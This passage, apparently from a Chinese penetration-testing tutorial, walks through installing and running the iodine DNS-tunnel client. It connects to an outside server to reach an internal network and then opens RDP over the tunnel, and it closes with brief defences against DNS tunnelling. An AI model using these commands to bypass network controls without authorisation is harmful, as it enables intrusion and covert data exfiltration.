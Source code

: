 2.安装iodine客户端
```bash
## 安装
# win
下载win编译好的版本，同时下载openvpn或者TAP网卡驱动程序(安装时仅选择TAP-Win32驱动)

# Linux
apt-get install iodine


## 启动客户端
​```bash
# win(打开里面win32的bin,需要管理员权限)
lodine.exe -f -P pass123456 vpn.360bobao.xyz
#如果出现"COnnection setup complete,tranmitting data"就表示成功
# Linux
lodine -f -P pass123456 vpn.360bobao.xyz -M 200


# 测试能否使用(客户端与服务端已经属于同一内网了)
ping 192.168.1.1    # 虚拟出来的服务端的网卡ip


## 参数：
-r    强制在任何情况下使用DNS隧道(因为有时候会自动动切换为UDP隧道)
-M    指定上行主机名的大小
-m    调节最大下行分片的大小
-T    指定所使用的DNS请求的类型。可选：NULL,PRIVATE,TXT,SRV,CNAME.MX,A
-O    指定数据编码规范
-L    指定是否开启懒惰模式(默认开启)
-I    指定请求与请求之间时间间隔
```

3.使用DNS隧道
```bash
# 由于客户端与服务端已经属于同一内网了，所以直接访问即可
mstsc 192.168.128:3389  # 等方法


# route 可以查看到路由
```


###### 防御DNS隧道的方法
- 禁止网络中任何人向外部服务器发送DNS请求，只允许与受信任的DNS服务器通信
- 虽然没有人会将TXT解析请求发送给DNS服务器，但是dnscat2和邮件服务器/网关会这样做。因此可以将邮件服务器/网关列出白名单并组织传入和传出流量中TXT请求
- 跟踪用户的DNS查询次数。如果达到阈值，就生成相应的报告
- 阻止ICMP


###### 各种隧道技术的优劣
<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20200516154814996_1523296228.png" />

根据实际环境选择技术  
DNS+SSH隧道结合
